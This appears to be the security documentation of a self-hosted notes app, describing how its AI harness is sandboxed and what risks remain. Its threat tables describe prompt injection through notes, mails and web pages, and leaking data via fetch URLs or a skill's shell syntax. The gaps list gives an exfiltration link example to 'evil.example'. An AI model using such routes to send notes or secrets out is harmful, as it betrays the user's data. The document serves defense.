

# Security: karpathy.app

The protections that exist on 2026-10-02, in the code and on the production server. The threat analysis behind the
server setup is in the [prod-env report](../research/prod-env/prod-env-report.md#security); how the server is set up is in
[deployment.md](deployment.md).

## Trust boundaries

## Authentication

- One **bearer token** guards every `/api` route; it is compared hashed and in constant time, and the backend refuses
  to start without one (`apps/backend/src/auth.ts`). `/healthz` carries no data and is reachable only inside the
  stack (Caddy proxies only `/api/*`).
- The web app keeps the token in localStorage; a 401 clears it together with the offline cache of note contents.
  The one way it travels in a URL is the login link `#token=…` (QR code): the fragment never reaches the server,
  and the app removes it from the address bar and the history at once. The QR code is a credential.

## Secrets

| Secret | Goes only to | How |
|---|---|---|
| Bearer token | backend | compose secret; `settings.json` names its file (`/run/secrets/bearer_token`) |
| GitHub token | backend | set in the app (stored in `config.json`, wins) or the compose secret (fallback); sent per git command as an `http.https://github.com/.extraheader`, never written to `.git/config`, redacted from errors and logs ([below](#github-token)) |
| DNS API token | proxy | compose secret (root-owned on a server) |
| LLM provider key (the chosen gateway's only), optional `EXA_API_KEY` | opencode | rendered `opencode.env` (env file, 0600) |
| opencode server password | backend, opencode | compose secret `opencode_password` (named in `settings.json`; opencode's entrypoint exports it as `OPENCODE_SERVER_PASSWORD`); generated once per target, never in the vault or the AI's reach |
| Commit author on `hetzner` (personal data, not a credential) | backend | secret references resolved inline into `settings.json` and `.env` (both 0600) |
| Ingest token | backend, ingest | compose secret `ingest_token`, generated once per target; the backend reads it from `INGEST_TOKEN_FILE` and sends it as a bearer token to the ingest endpoint |
| gog keyring password | ingest | compose secret `gog_keyring_password`, generated once per target; `run.sh` exports it as `GOG_KEYRING_PASSWORD` |
| Gmail OAuth client + refresh token | ingest | gog's file keyring in the `ingest-state` volume, encrypted with the keyring password; piped in from the Mac's Keychain by `just ingest-auth`, never printed or written to disk on the way |
| Instagram session (cookies, device ids) | ingest | `session-<user>.json` (0600) in the `ingest-state` volume; the password is never stored |
| Ingest profile account and allowed senders (personal data) | ingest | secret references resolved into `ingest.json` (0600) |
| `INGEST_EMAIL_DEPLOY_KEY` | CI and the release workflow | GitHub repo secret: the private half of a read-only deploy key on `tillg/ingest_email` only |

**Secrets are references in the settings.** `deploy/settings/` is committed to a public repo, so a setting that is
secret holds only `{ secret: <name> }`; the renderer reads the value from a secret store (one file per name). In
dev the stores (`deploy/secrets/`, `tmp/prodtest/secrets/`) and the local overlays (`deploy/settings/*.local.yaml`)
are gitignored. On a target the values come from that target's encrypted Ansible Vault (password in the operator's
Keychain): role `app` passes them on stdin to `render-settings.sh` on the controller, which keeps them in a 0700
temp store only while the renderer runs; the rendered files are removed from the controller in an `always:` block,
and every task that handles them doesn't log. Compose secret files are written 0600. `just settings show` prints
references, never values; the renderer never logs a value; the legacy check in `dev.sh` names keys of an old
`deploy/.env` / `opencode.env`, not their values. `settings.json` holds no credential: only `/run/secrets/…` paths.
opencode never receives the GitHub or bearer token; the ingest service receives none of the app's secrets (bearer,
GitHub, opencode password, provider keys), only its own two.

## GitHub token

- **At rest:** a token set in the app is stored in plaintext in `config.json` on the backend-only `config` volume (the
  volume holds vault config too and is not mounted into opencode or the proxy). That is the same exposure as the secret
  file (0400/0600): whoever has root on the host can read it. The secret remains the fallback while none is set.
- **Never returned:** `GET /settings` and `PATCH /settings` return only `{ source, last4 }`. The token is a separate
  top-level key of the config, not part of `Settings`, which is returned verbatim, so it can't leak through that
  object. The plaintext is accepted only by `PUT /settings/github-token` and `POST /settings/github-token/test`, over
  HTTPS and bearer-guarded like every route. The web app clears the field after saving.
- **Redaction:** the backend remembers every token value seen since startup (secret, stored, replaced, and tokens that
  were only tested, never saved) and replaces each with `***` in clone, preflight and access-check errors, logs and
  stored clone errors, so an old or merely tested token doesn't leak either.
- **No probing:** the token test calls the GitHub API base and remote base from the server (env `GITHUB_API_BASE`,
  setting `git.remote_base`), never a host from the request, so it can't be used to reach arbitrary hosts.
- **Validation:** 20–255 characters, no whitespace; a bad value is a 400.
- Unchanged: the token is injected per git command, never written to `.git/config` or a repo, and never reaches opencode.
- **Attach preflight** runs git with the token against the requested repo only (`owner/name` pattern, `--end-of-options`),
  in a temp clone that is removed afterwards and killed after 60 s; concurrent adds of the same repo are refused.

## Confining the AI

- **Managed opencode config** merged last (`/etc/opencode/opencode.json`), so a vault can't override it; an empty
  tmpfs `HOME` means no global config either.
- **Provider config after the vault's:** the gateway's provider config, including OpenRouter's zero-data-retention
  routing (`zdr: true`, `data_collection: deny`, a fixed host list), comes from the settings as
  `OPENCODE_CONFIG_CONTENT` in `opencode.env`, which opencode merges *after* a vault's own `opencode.json`. A vault
  can't turn the routing off or point the gateway at another URL. Not as an `OPENCODE_CONFIG` file: that is merged
  before the project config, and a vault's `zdr: false` won (found in the review of #133, checked on a dev stack).
- **Denied tools:** `bash`, `task`, `question`, `external_directory`; `webfetch`, `websearch` and `save_url` are denied in the
  managed config too and switched on per turn only (see [Web access](#web-access)); `move_to_sources` is denied globally
  and allowed in agent `vault` only. No permission is ever "ask", so a
  turn never blocks on an approval (opencode's built-in defaults contain `ask` rules, each one is overridden). Reading
  `*.env` is denied; editing `.git`, `opencode.json(c)` and `.opencode/` is denied. Why:
  - `bash` would get around every file-tool rule: write during a read-only turn, read other vaults under
    `/vaults/*`, read the container env with the provider keys, the Exa key and the opencode password.
  - `task`: a subagent inherits the parent *session's* permissions, not the parent *agent's*, so it could write during
    a `vault-readonly` turn (verified).
  - The edit guards stop the AI from planting an opencode plugin (code in opencode) or a git hook (code in the backend,
    which holds the GitHub token). They sit in the `vault` agent, because an agent-level `edit: allow` overrides
    top-level denies.
  - Blanket-denied tools are hidden from the model entirely; a "denied" chip appears only for pattern-level denies.
- **Agents:** `vault` (edit), `vault-readonly` (default, and forced during conflicts), `commit-message` (no tools).
- **Directory confinement:** the opencode image has no git, so opencode treats the session directory (the vault root)
  as the boundary; `external_directory: deny` blocks everything outside it. The check is lexical, so a symlink would
  escape it; hence `core.symlinks=false` on every clone. Instruction and skill lookup walks up past the vault root to
  `/`, so `/vaults` and `/` must never contain `AGENTS.md`, `CLAUDE.md`, `.claude/` or `.agents/` (the backend also relies
  on `/vaults` holding no vault skills, to tell app skills from vault skills).
- **One `OPENCODE_DISABLE_*` flag, `OPENCODE_DISABLE_CLAUDE_CODE_SKILLS=1` (image env), and no other.** It drops only
  `.claude/skills/`, so a vault's skills come from `.agents/skills/` alone, for the palette and the AI's `skill` tool alike,
  while `CLAUDE.md` and `AGENTS.md` keep loading (verified in the pinned binary; a test pins it against upgrades). The broad
  `OPENCODE_DISABLE_CLAUDE_CODE` and `_PROMPT` would also drop the vault's `CLAUDE.md`, and
  `OPENCODE_DISABLE_PROJECT_CONFIG` the vault's `AGENTS.md`/`CLAUDE.md`. The empty `HOME` keeps global Claude files out instead.
  An opencode upgrade has to re-check this like the other confinement rules.
- **Commands never use opencode's command endpoint** (`POST /session/:id/command`,
  [ADR 0004](../../docs/adr/0004-commands-as-prompts-not-command-endpoint.md)). It replaces every `` !`cmd` `` in a skill
  with the output of `cmd`, run through a shell with no permission check (`bash: deny` doesn't apply; a probe leaked the
  user id and the model env), so any vault author could read `/run/secrets/…` or the provider keys with a `SKILL.md`. It also
  resolves `@file` references and can't carry the per-turn `tools` map. A command turn goes through the normal prompt path
  as plain text (`parseCommand`/`expandCommand`; a test pins that `` !`id -u` `` stays literal), so every guard applies. A
  skill is instructions, not code. The skill's URLs count as user text for the known-URL rule: a skill is vault content,
  as trusted as a note the AI reads, whose URLs are known too.
- **App skills come only from the image** (`/opt/opencode-config/opencode/skills/`, read-only, root-owned like the tools),
  never from a vault. A vault skill of the same name only replaces it in that vault; the backend decides the clash, and the
  AI's `skill` tool may still load either.
- **The custom tools, `open_note`, `open_url`, `save_url` and `move_to_sources`, come from the image**, never from a vault: they sit in a root-owned,
  read-only global config dir (`XDG_CONFIG_HOME=/opt/opencode-config`), pre-populated at build so opencode installs nothing at
  runtime. `open_note` checks the path lexically and by `stat` inside the session directory, refuses dot-segments, reads no
  content and changes nothing. `open_url` fetches nothing and returns `offered <url>` for an http(s) URL (see
  [Web access](#web-access)). Both are allowed for `vault-readonly` too. `save_url` is the one custom tool that writes: it
  is allowed for `vault` only, and only a known URL becomes a new media file or PDF (see [Web access](#web-access)). `move_to_sources`, also
  `vault` only, can only rename `Input/<name>` to a new `Sources/<name>` ([Ingest service](#ingest-service)). opencode *would* load tools from a vault's
  `.opencode/tools/`; the harness-config rule below is what stops that.
- **Harness config in a vault** (`.opencode/`, `opencode.json(c)`) disables chat for that vault and can't be created
  through the file API. It is code (plugins, custom tools, MCP servers with a `command`), and the managed config can
  only override its keys, not stop it from adding new ones. A vault that needs its own opencode config can't use chat.
- **No commits by the AI:** only the user's commit records and pushes changes ([ADR 0001](../../docs/adr/0001-user-triggered-commits.md)).

## Web access

The AI's only outbound channel: opencode's built-in `websearch` (pinned to Exa) and `webfetch` plus the custom `save_url`, switched on per turn
by the **Web access** setting (on by default). The managed config keeps all three `deny` (fail-closed); the backend sends
`tools: { websearch, webfetch, save_url }` with every turn (`save_url` is also `false` in a read-only conflict turn, because session rules beat agent rules), `false` included, because opencode stores that map as the session's
permission and it replaces earlier rules. Off = the model sees neither tool. `commit-message` never gets them.

| Risk | Guard | What remains |
|---|---|---|
| Vault data leaves in a **fetch URL** | **Known-URL provenance:** a plugin (`deploy/opencode/plugins/known-url.ts`, `tool.execute.before`) lets `webfetch` and `save_url` fetch only a URL that appears verbatim in what the model saw in this chat (user messages, tool outputs; truncated outputs count as their preview). Normalization: scheme and host lower-case, default port and fragment dropped; path and query exact. Otherwise the call fails "URL not in this chat: paste it into the chat first". | The AI can fetch an attacker URL that is already in a note or page, but without added data. |
| Data in the **order of fetches** | **Web caps:** at most 20 fetches and 20 searches per turn (settings `ai.web.fetch_cap` / `search_cap`, rendered as `WEB_FETCH_CAP`, `WEB_SEARCH_CAP` into `opencode.env`, read at start), counted from the stored messages; `webfetch` and `save_url` calls share the fetch cap | A slow leak of a few characters per turn. |
| Data in a **search query** | Every query is a chip; the switch turns web access off | Exa receives the query text; the user sees it afterwards, not before. |
| **SSRF / escape** (opencode API, backend, metadata, tailnet) | **Egress proxy** (Squid, `deploy/egress`): opencode is only on the `internal: true` network and reaches the internet through `HTTP(S)_PROXY`; the proxy refuses loopback, RFC 1918, link-local, CGNAT/tailnet, ULA and other special ranges after DNS resolution, on every request (so every redirect hop). | None known; the network tests check each target. |
| **Loopback** (`NO_PROXY` names it, because opencode's plugin client must reach its own server directly) | **opencode server password:** HTTP Basic on every opencode route, health included. The backend sends it; the AI can't read it (`bash`, `external_directory` and `*.env` denied). | — |
| Vault data leaves through a **link offer** (`open_url`) | The same known-URL check as `webfetch` (`guardWebCall`, one function for both, unit-tested), http(s) only, no cap, and the user's tap on a chip that shows the host. Nothing is fetched by the server, so it works with Web access off, and no tab opens by itself (browsers block that without a tap). | The AI can offer an attacker URL that is already in a note or page, but without added data. |
| A **media download** (`save_url`) writes outside the vault or overwrites, or reaches an internal host | Data can't leave in the URL: the same known-URL check as `webfetch`. Writes are confined in the tool: the target must be a new file (`wx`, never an overwrite) of a media or PDF extension (no SVG) inside the vault after resolving symlinks, no dot-segments (`.git`, `.opencode`, hidden), Content-Type must fit the extension, at most 50 MB (partial file removed), 120 s timeout. SSRF: the download is passed to the egress proxy explicitly (`proxy` option from `HTTP(S)_PROXY`), because a direct fetch could reach `backend` and `opencode` on the compose network; without a proxy env the tool refuses. Bun still fetches `NO_PROXY` hosts (`localhost`, `127.0.0.1`, …, subdomains too) directly, even with an explicit proxy, so redirects are followed by hand and every hop to a `NO_PROXY` host is refused. | The AI can save an attacker's image or PDF that is already in a note or page (new file, shown in Changes, reviewed before commit). Stock `webfetch` lacks the hop check: a known `http://localhost:4096/…` URL goes straight to opencode's API (it answers 401 without the password). |
| **Research** spends before the user agreed, or runs away | Skill instruction only: the plan turn scouts ≤ 3 searches / ≤ 2 fetches and stops; no backend rule (a `/research` turn has the tools of every turn). The 20 / 20 caps bound every turn, the skill aims at 8 sources per run turn, and the next block needs the user's reply. | A model that ignores the skill can run a full 20 / 20 block in the plan turn. No money or token cap. |
| **Untrusted web content** (pages up to 5 MB, images, results) | None at fetch time | An injected instruction can make the AI edit notes, and content it saves lands in `Sources/` and `Wiki/`; the diff review before commit is the safety net (ADR 0001). |

Within it, `webfetch`, `save_url` and `open_url` need a known URL, and only `webfetch`, `save_url` and `websearch` are capped.

Not taken: an approval prompt per call (needs `ask`, which blocks the turn), a domain allowlist (defeats reading what
the user points to), provider server tools (tied to one model vendor, ADR 0002).

## Ingest service

The compose service `ingest` parses untrusted input on a timer: mails and their attachments, HTML of any page a mail
links to, PDFs (poppler, tesseract OCR), images and videos (ffmpeg), Instagram responses. It is fenced in like opencode
and holds nothing of the app's:

| Risk | Guard | What remains |
|---|---|---|
| A parser bug turns into code execution in the container | Non-root (`APP_UID`), `cap_drop: [ALL]`, `no-new-privileges`, `init`, bounded logs; no app secret in the container (no bearer, GitHub, opencode password or provider key); no published port | The attacker holds the ingest token, the gog keyring (and its password) and the Instagram session, and can write into the configured vaults' `Input/` |
| **SSRF:** a mail links to the backend, opencode, the metadata service or the tailnet | Network `internal` only, every request through the egress proxy (`HTTP(S)_PROXY`, honoured by httpx, `gog` and instagrapi), which refuses loopback, private, link-local and tailnet ranges after DNS, on every redirect hop; `ingest-egress.test.ts` checks it in a real container pair | The service shares the `internal` network with backend and opencode, so code running in it could reach `backend:8787` and `opencode:4096` directly, though each still needs its token or password (#135) |
| The service damages notes or the git repo | Mounts on a target: only `<vault>/<root>/Input` (rw) and `…/Sources` (ro) of the profiles' vaults, never `.git`, `Wiki/` or another vault; it never runs git; it touches an item only while it has open links | Dev and prodtest mount the whole `vaults` volume (no real profiles there) |
| Untrusted mail reaches the AI (prompt injection) | `allowed_senders` allowlist per profile, checked before a mail is read (others go to `/rejected` unread; an empty list is a config error, never "everyone"); items are vault content like an ingested note today | An allowed sender's mail or a linked page can carry instructions; the diff review before commit is the safety net (ADR 0001) |
| The AI's ingest misuses `move_to_sources` | The tool only renames `Input/<name>` (a single, non-hidden segment, a real directory, no symlink on `Input`, the item or `Sources`) to a new `Sources/<name>` claimed with `mkdir`; never overwrites, never deletes, refuses items with open links; `vault` agent only, so not in conflict or read-only turns | — |
| Someone else drives the ingest endpoint | `:8090` on the `internal` network only; every request needs the `ingest_token` (constant-time compare); opencode's web tools go through the egress proxy, which refuses internal hosts, and don't have the token | — |
| The Instagram password leaks | It crosses browser → proxy (TLS) → backend → ingest once, inside the request: never stored or logged (the backend logs no bodies, `server.py` logs request lines only; `test_server.py` checks that no password lands under `/state`); the session file holds cookies and device ids only | The password is in process memory while the login runs |
| A crafted username escapes the session dir | Instagram username format `^[A-Za-z0-9._]{1,30}$`, not only dots, checked by the backend's zod schema and again in the service, because it becomes part of file names; each attempt gets its own `mkdtemp` staging dir; a session is installed under the service lock, so a superseded login never installs | — |
| An ingest-side 401 logs the user out | A 401/403 from the service (token mismatch) becomes `502 ingest-auth`; the web app logs out only on the backend's own 401 | — |
| Dev conveniences reach production | The fake Instagram login (`INGEST_FAKE_INSTAGRAM_LOGIN=1`) is set only in `compose.dev.yml`; `compose.test.sh` asserts prod and prodtest don't have it. Only `hetzner` may have ingest profiles (a settings test) | — |
| The build leaks a credential | ingest-email comes in as a named build context; CI checks it out with a read-only deploy key on that one repo (`INGEST_EMAIL_DEPLOY_KEY`, `persist-credentials: false`), never a personal token; the image holds no git credentials | Revoke with `gh repo deploy-key delete <id> -R tillg/ingest_email` |

- Nothing in the pipeline commits: the user reviews fetched items, wiki pages and moves before anything reaches GitHub.
- A pull never stashes `Input/` (pathspec exclude), so it can't detach the service's bind mount or race its writes.
- Gmail access is set up from the Mac (`just ingest-auth`): the OAuth client and refresh token are piped over SSH into
  `docker exec` on stdin, never as arguments, and land only in the encrypted keyring.

## The agents move

The app writes vault files without a tap (`agents-standard.ts`), so it is fenced in:

- It runs only after a clone, pull or open, under the exclusive vault lock (no turn runs), never while the vault is in
  conflict, and never over an existing name (`AGENTS.md`, a skill folder: the clash stays and is listed).
- `@path` imports are pasted into `AGENTS.md` only for an existing file inside the vault root that is not gitignored (the
  paths go through the symlink-safe resolver; `AGENTS.md` is committed, so an ignored file's content would reach the
  remote). Anything else stays as text.
- The result is uncommitted changes, announced by a notice and reviewed before commit (ADR 0001); discarding undoes it.
- **The skill link under `core.symlinks=false`:** the server never holds a real symlink: `.claude/skills` is a plain stub
  file with the target (`../.agents/skills`, no trailing newline), and `Repo.stageSymlink` stages it with mode 120000 through
  `git update-index --cacheinfo`. The commit's `git add -A` keeps that mode, so the commit carries a symlink that points inside
  the repo; the Mac follows it, the server never does, and `paths.ts` still refuses real symlinks. Staging it is the only
  index write outside a commit and commits nothing.

## Input handling

- **Paths:** relative only; no `..`, NUL, absolute paths or `.git` segments; every segment is checked for symlinks
  (`paths.ts`). Git checks out symlinks as plain files (`core.symlinks=false`).
- **Git arguments:** `--end-of-options` on clone, fetch and push; branch names restricted to a safe-ref pattern; repo
  names to `owner/name`.
- **File names:** no Windows-reserved names, forbidden characters, trailing dots or spaces, or case twins.
- **Request validation** with zod; JSON body limit 10 MB.
- **Uploads** (`POST /vaults/:id/raw`, behind the bearer token):
  - The body is raw bytes, at most 50 MB (`413`).
  - The name passes the file-name rules, plus no folder, no leading dot and no `#^[]|`. The kind comes from the
    extension only: JPEG, PNG, GIF, WebP or PDF (`415`). SVG and HTML are never uploadable, so no active format gets
    in. The bytes are stored as given and served with the media table's type and `nosniff`.
  - An editor upload's page must be an existing `.md` outside hidden folders. So an upload can't create `.opencode/`,
    `opencode.json`, a git hook or anything under a dot folder.
  - A chat folder name must be an existing `upload-…` folder directly in `Sources/`.
  - Writes never overwrite (`flag: 'wx'`), and the path goes through the symlink-safe resolver.
- **Chat attachment paths** are checked by the backend at turn start (raw-file rules: no hidden segment, no symlink,
  inside the vault root; uploadable; ≤ 20 MB). That check is the only guard: opencode reads a `file:` URL without a
  directory check of its own. So a path can't make the AI read another vault, `.env` or harness config.

## Rendering untrusted content

Notes and AI replies are untrusted HTML sources. Markdown is rendered with `marked` and sanitized with DOMPurify
(forms, inputs, buttons, styles, links, meta, base and dialogs removed, `style` and form attributes stripped). After
sanitizing, a hook sets only the app's own link attributes: route hrefs for vault links (any `data-note` from the note
itself is removed first) and `target="_blank" rel="noopener noreferrer"` on external links. The
prod proxy adds a strict **CSP** (`default-src 'self'`, `script-src 'self'`, `object-src 'none'`,
`frame-ancestors 'none'`, …; `style-src 'unsafe-inline'` because CodeMirror injects styles; `img-src` and
`media-src` allow `'self' blob:` for media embeds, no remote hosts) and `nosniff`, `no-referrer` and
`X-Frame-Options DENY`.

**Media files** are untrusted bytes too:

- Embeds render as `data-*` placeholders that survive DOMPurify; the elements are created with `createElement` and a
  `blob:` object URL, never from HTML strings. Remote images (`https:`, `//`, `data:`) stay links: no tracking pixels.
- `GET /raw` takes the Content-Type from the extension (shared table), never from content, with `nosniff`. Anything
  that isn't a media kind (PDF included) gets `Content-Disposition: attachment`, so the browser never renders it as a
  page on the app's origin.
- SVGs are sanitized (DOMPurify SVG profile) before they become a blob and are only shown inside ``; their file
  card downloads, never opens.
- **Open** (PDF only) navigates a new tab to a blob the app typed `application/pdf`, so only the PDF viewer can show
  it; no `frame-src` or `object-src` relaxation.

**Properties and the schema file** come from the vault too: property values and heading texts render as React text
(links through the same resolver as wikilinks), never as HTML. `.karpathy/schema.json` is checked by hand (known
kinds, strings only) and can only change which fields and flags the form shows; rule lookups never reach
`Object.prototype` (a key named `constructor`). It is not harness config: the AI may edit it like any vault file.

## Runtime hardening

- On a target only the proxy publishes ports (443 only, no port 80); backend, opencode and ingest are on the internal
  network.
- Backend, opencode and ingest run as uid 1000, not root; every service has `cap_drop: [ALL]` (the proxy keeps
  `NET_BIND_SERVICE`), `no-new-privileges` and bounded logs.
- opencode's snapshots, sharing and auto-update are off; its version is pinned.
- **Dev stacks on the Mac** (prod is unchanged): besides the proxy on 80N0, the backend's HTTP API is published on
  `127.0.0.1:80N1` only, for debugging; opencode and web stay unpublished on the internal network. The dev model
  is the native Ollama, bound to `127.0.0.1:11434`. opencode reaches it only through the stack's Ollama relay
  (`ollama.internal`), which passes `/v1/*` (the OpenAI-compatible API) and answers 403 to everything else, so a
  prompt-injected AI can't use Ollama's admin API (pull, delete, create); a pull from an "insecure" registry would
  otherwise make the Mac itself request LAN or loopback addresses the egress proxy forbids. The `local` target's VM
  uses the same relay (`ollama-relay`) to the same Ollama, reached at `192.168.5.2:11434` (Lima's forward to the
  Mac's loopback), so Ollama never binds a LAN address.
- **Production server:** reachable only over Tailscale. The Hetzner firewall blocks all inbound traffic; the app,
  Beszel and Gatus bind the tailnet IP. SSH takes keys only, no root login. The operator logs in as `ops` (sudo);
  uid 1000, the app's user, has no login, no sudo and no Docker access, so a container breakout doesn't reach root
  directly.

## Gaps (known, not built)

- No rate limiting on the token check.
- The egress proxy allows every public destination (LLM APIs, models.dev, Exa, any web page); it is an SSRF fence,
  not an allowlist.
- Exa without `EXA_API_KEY` is its anonymous, rate-limited endpoint with no account terms; with a key, the key travels
  in the Exa URL query (HTTPS, to Exa only). Neither has zero data retention below Exa's enterprise plans.
- Single shared token: no per-device tokens or revocation other than changing the secret.
- The GitHub token set in the app is stored unencrypted in `config.json`; request bodies of the token routes are not
  logged, but no rate limit applies to the test route.
- The LLM provider sees every note, image and PDF the AI reads, and every image or PDF the user attaches to a prompt.
  Photos are re-encoded in the browser, which drops their location metadata; PNG, GIF, WebP and PDF files are sent as
  they are.
- opencode keeps attached files in its session store (base64) until the chat is deleted.
- Uploads stay in the git history for good; there is a per-file cap (50 MB), no per-vault quota.
- `Vaults.rawFile` checks hidden segments before it normalizes `\` to `/`, so `a\.obsidian\x.png` passes that check
  (found in the attachments review, not fixed).
- When `Sources` is a symlink, a chat upload with `source=new` creates an empty `upload-…` folder at the link's target
  before the symlink-safe resolver refuses the file itself (found in the attachments review, not fixed).
- Links in the AI's reply text aren't checked: it can write `[text](https://evil.example/?d=<note text>)` and a tap sends the
  data. This channel predates `open_url`, which doesn't widen it. A follow-up could render reply links whose URL isn't known as
  plain text or with a warning.
- The Beszel agent mounts the Docker socket (root-equivalent on the host; accepted).
- Gatus has no authentication on the tailnet; secrets appear briefly in process lists during a deployment.
- During a deployment the target's secrets sit briefly on the controller (the Mac) in a 0700 temp dir, and the
  rendered `.env` / `opencode.env` in an Ansible temp dir until the `always:` cleanup.
- A `WEB_FETCH_CAP` / `WEB_SEARCH_CAP` left in a target's `vault_opencode_env` is ignored: the caps are settings
  now (`ai.web`); no vault sets them today.
- The GoDaddy API key can change every domain of the account and sits on the server.
- **Ingest service** (#135 and the open ingest-email prerequisites):
  - It shares the `internal` network with backend and opencode; a separate network for ingest, egress and backend
    would narrow what a compromised parser can reach.
  - **Cancel** in the Instagram code step only resets the form; the server's pending login waits for a code until its
    5-minute timeout.
  - The pinned ingest-email writes mail items in place (not atomically), so for a moment a half-written item can be
    visible to the backend, the AI and a pull.
  - The Gmail refresh token and the Instagram session sit in the `ingest-state` volume (the keyring encrypted with a
    password stored next to it as a compose secret): root on the host can read both. Gmail access is the account's
    full Gmail scope that gog was granted, not only the label.
  - Instagram logins and fetches come from a datacenter IP, which Instagram flags more often; a flagged account is the
    user's own.
  - The ingest image is public on GHCR like the others (targets pull anonymously), so the code of the private
    ingest-email repo inside it can be read by anyone who pulls it (checked 2026-10-08: `karpathy.app-ingest:0.0.17`
    pulls without a login). It holds no secret.
